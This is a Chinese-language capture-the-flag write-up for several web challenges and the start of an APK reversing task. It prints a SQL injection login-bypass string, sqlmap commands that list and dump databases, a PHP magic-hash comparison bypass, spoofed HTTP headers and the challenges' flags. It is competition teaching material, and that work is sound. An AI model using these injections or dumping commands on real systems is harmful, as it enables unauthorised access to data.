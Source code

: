 所以我们的目标就是反查md5。扔进cmd5中发现是一条付费记录，我没钱所以看不了。但是扔到百度中即可得到结果：s1184209335a。于是访问网址：

http://xxx.xxx.xxx.xxx:8080/web2/xedni.php?password=s1184209335a

得到flag：nuaactf{/web3/b481b86354a413b898b6f01af539366d}。

其实还有一种解法，因为PHP的一个“特性”：任何0e开头的字符串都会被解析为数字0，因此只需要找到任意一个md5之后0e开头的字符串，放进password参数中提交即可。看题目描述感觉本题应该是用此方法解，与出题人讨论之后，认为如果考此方法，代码中的md5判断改为”0e23333”更好一点。

# Web4

将题目网址的路径替换成Web3的flag，跳转到http://211.65.102.2:8080/web3/login.php，这是一个登录界面，没有任何多余信息，因此考虑SQL注入。测试了一下发现有报错，但是报错中没有语句相关的信息，因此只能盲注，如果将数据库中的数据dump出来，将花费很长的时间。根据提示“需要用管理员账号来看flag”，于是猜想用户表中有一列标记是否为admin。直接在用户名中输入【' and 1=0 union select 1,1,1,1 -- 】（别忘了一开始的单引号和最后的空格，1的数量是从两个开始试出来的，表示用户表一共有4列），提交之后会跳转，通过抓包看到flag：nuaactf{hApPy_haCk1n9_t0Day}，以及下一题的地址。

为了验证猜想是否正确，可以使用sqlmap扫一下：

```bash
$ ./sqlmap.py -u "http://xxx.xxx.xxx.xxx:8080/web3/login.php" --forms –dbs
available databases [2]:
[*] information_schema
[*] nuaactf
```

然后看一下nuaactf里面有什么信息：

```bash
$ ./sqlmap.py -u "http://xxx.xxx.xxx.xxx:8080/web3/login.php" --forms -D nuaactf --tables --dump
```

可以dump出表结构，如下图所示：

![0](https://dn-rexskz.qbox.me/blog/article/nuaactf-2016/5.png)

证实了刚才的猜想。

# Web5

根据题目描述“你从哪里来“，可以推测是修改HTTP头。在HTTP头中加上：

```http
Origin: http://cs.nuaa.edu.cn/
X-Forwarded-For: 【cs.nuaa.edu.cn的IP】
```

得出flag：nuaactf{C0ndrulation!&#95;y0u&#95;f1n1shed_a11_web_quest}。

# Reverse1

这是一个apk，先用dex2jar将其转换为jar文件：

```bash
$ d2j-dex2jar.sh reverse1.apk
dex2jar reverse1.apk -> reverse1-dex2jar.jar
```
